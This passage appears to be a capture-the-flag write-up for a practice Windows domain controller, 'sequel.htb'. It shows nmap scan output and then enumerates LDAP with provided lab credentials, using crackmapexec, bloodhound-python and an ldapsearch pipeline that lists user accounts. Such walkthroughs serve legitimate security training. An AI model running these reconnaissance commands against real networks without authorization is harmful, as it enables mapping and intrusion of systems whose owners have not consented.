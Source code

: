 ```
Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-03-08T11:57:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.97 seconds
```


## Enumerating LDAP

We're given those creds at the beginning of the engagement `rose:KxEPkKe6R8su`

Rose has ldap access
```bash
cme ldap 10.10.11.51 -u rose -p 'KxEPkKe6R8su'
```
```bash
SMB         10.10.11.51     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
```

So we can use a bloodhound injester
```bash
bloodhound-python \
  -u rose \
  -p 'KxEPkKe6R8su' \
  -c All \
  -d sequel.htb \
  --dns-timeout 10 \
  -ns 10.10.11.51
```

Starting bloodhound-ce and uploading data to it
```bash
docker compose pull && docker compose up
```

Also get a list of users manually with ldapsearch
```bash
type=user
ldapsearch -x -LLL \
  -H ldap://10.10.11.51:389 \
  -b "CN=users,DC=sequel,DC=htb" \
  -D 'rose@sequel.htb' \
  -w 'KxEPkKe6R8su' \
  "(objectClass=${type})" \
  samaccountname |\
grep sAMAccountName |\
cut -d' ' -f 2 |\
tee "${type}"
```
